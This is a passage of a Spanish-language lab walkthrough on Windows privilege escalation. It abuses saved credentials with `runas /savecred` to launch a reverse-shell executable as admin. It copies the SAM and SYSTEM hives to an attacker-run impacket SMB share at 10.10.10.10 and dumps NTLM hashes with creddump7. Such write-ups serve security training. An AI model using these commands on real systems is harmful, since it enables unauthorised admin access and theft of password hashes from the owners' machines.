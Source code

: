 - **Segunda Entrada: Credenciales de Dominio**
    - **Target**: `Domain:interactive=WIN-QBA94KB3IOF\admin` - Esta entrada indica que las credenciales son para una cuenta de dominio en la máquina `WIN-QBA94KB3IOF`, y el usuario es `admin`. La parte `interactive` sugiere que estas credenciales se utilizan para sesiones de inicio de sesión interactivo.
    - **Type**: `Domain Password` - Especifica que estas son credenciales para una contraseña de dominio, utilizadas para autenticación en entornos de red de dominio.
    - **User**: `WIN-QBA94KB3IOF\admin` - Muestra el dominio y el nombre de usuario asociados con estas credenciales, en este caso, el usuario administrador del dominio/local máquina especificada.

Ahora nos ponemos a la escucha con netcat y ejecutamos el siguiente comando para ejecutar nuestro paylaod con permisos de administrador y las credenciales almacenadas
```
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```
![[Pasted image 20240722093738.png]]
- **`/savecred`**: Esta opción permite al comando `runas` utilizar credenciales previamente guardadas que el usuario actual haya almacenado usando `cmdkey`. Esto evita que se pida la contraseña nuevamente si ya fue ingresada y guardada anteriormente.
- **`/user:admin`**: Especifica que el comando o programa deberá ejecutarse con los privilegios del usuario `admin`.
- **`C:\PrivEsc\reverse.exe`**: Es el programa que será ejecutado con los privilegios elevados. `reverse.exe` podría ser cualquier ejecutable, en este contexto parece ser un programa que probablemente forma parte de un test o de una herramienta de seguridad.

Y ya hemos obtenido la shell como admin
![[Pasted image 20240722093802.png]]


# **Passwords - Security Account Manager (SAM)**
Podemos sacar los hashes de los archivos SAM y System, para ello los descargaremos del sistema, para ello levantaremos un servidor de SAMBA en nuestra maquina de kali linux
```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```
![[Pasted image 20240722094410.png]]

Y los copiaremos en nuestro sistema
```
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\
copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
```
![[Pasted image 20240722094604.png]]

Si volvemos al servidor veremos los registros de los ficheros descargados
![[Pasted image 20240722094703.png]]

Y ya tendremos los archivos en nuestro sisetma
![[Pasted image 20240722094738.png]]

Ahora para descubrir los hashes podemos usar una herramienta llamada [[Creddump7]]
Ahora ejecutamos el siguiente comando y habremos obtenido los hashes NTLM del sistema
```
python3 creddump7/pwdump.py SYSTEM SAM
```
![[Pasted image 20240722095822.png]]
